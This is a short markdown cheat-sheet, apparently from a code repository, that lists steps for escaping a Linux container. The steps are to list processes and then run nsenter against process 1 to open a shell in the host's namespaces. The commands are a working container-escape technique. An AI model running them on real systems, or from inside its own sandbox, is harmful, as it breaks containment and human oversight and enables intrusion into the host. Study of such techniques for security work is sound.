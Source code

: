 # STEPS

### 1) ps aux to list processes

### 2) If we detect anything interesting, we can invoke the command: nsenter --target 1 --mount sh or: nsenter --target 1 --mount --uts --ipc --net /bin/bash

### 3) If it worked, we escaped the container!

### TIP: Interesting processes can be /sbin/init of process 1 (the parent of all processes) for example

